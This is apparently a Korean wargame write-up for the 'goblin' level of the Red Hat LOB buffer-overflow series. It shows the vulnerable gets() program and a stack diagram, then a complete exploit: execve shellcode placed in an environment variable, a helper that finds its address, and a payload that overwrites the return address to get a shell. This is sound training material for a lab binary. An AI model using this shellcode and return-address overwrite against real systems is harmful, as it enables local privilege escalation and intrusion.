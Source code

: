 ============================================================================================================
[redhat-lob] (3) goblin
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="input"];
        b [shape=box, color=lightblue, label="gets"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="RET"];
        e [shape=box, label="getenv address"];
    }


|

Source Code
============================================================================================================

.. code-block:: c

    int main()
    {
        char buffer[16];
        gets(buffer);
        printf("%s\n", buffer);
    }


|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.

.. code-block:: console

    ===============
    LOW     
    ---------------
    Buffer  (16byte)
    SFP     (4byte) 
    RET     (4byte)  <- gets overflow
    argc    (4byte)  <- 0x00000001
    argv[0] (4byte)  <- argv[0] 주소
    ---------------
    HIGH    
    ===============

|

Buffer Overflow
============================================================================================================


.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2
    $ ./goblin
    aaaaaaaaaaaaaaaa

    aaaaaaaaaaaaaaaa

    $ ./goblin
    aaaaaaaaaaaaaaaaaaaa

    aaaaaaaaaaaaaaaaaaaa
    Segmentation fault

|

exploit
============================================================================================================

환경 변수 쉘코드 등록
------------------------------------------------------------------------------------------------------------

환경 변수에 쉘코드를 등록해두고, 입력값 마지막 리턴 주소를 환경 변수 주소로 변경하여 해당 쉘코드를 실행하도록 한다.

.. code-block:: console

    $ export shellcode=`python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

|

환경 변수 주소값 확인
------------------------------------------------------------------------------------------------------------

다음과 같이 소스코드를 작성하여 shellcode 환경 변수에 대한 주소 값을 획득.

.. code-block:: c

    #include <stdio.h>
    int main(int argc, char **argv)
    {
            char *addr;
            addr = getenv(argv[1]);
            printf("address %p\n", addr);
            return 0;
    }

.. code-block:: console

    $ gcc -o get get.c

    get.c: In function `main':
    get.c:6: warning: assignment makes pointer from integer without a cast

    $ ./get shellcode

    address 0xbfffff02

|

RET 주소를 환경 변수 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ===============
    LOW     
    ---------------
    Buffer  (16byte) <- "\x90"*16
    SFP     (4byte)  <- "\x90"*4
    RET     (4byte)  <- shellcode 환경 변수 주소
    argc    (4byte)  <- 0x00000001
    argv[0] (4byte)  <- argv[0] 주소
    ---------------
    HIGH    
    ===============

|

오버플로우시 RET 주소를 환경 변수 주소로 변경하여 해당 쉘코드가 실행되도록 한다. 
gets의 경우 프로그램 실행 이후 값이 입력되어야 하기 때문에 다음 형식으로 변수를 입력합니다.

.. code-block:: console

    $ (python -c 'print "a"*20+"\x01\xff\xff\xbf"';cat) |./goblin
    aaaaaaaaaaaaaaaaaaaa▒▒▒

    whoami
    goblin
    my-pass
    euid = 503
    hackers proof

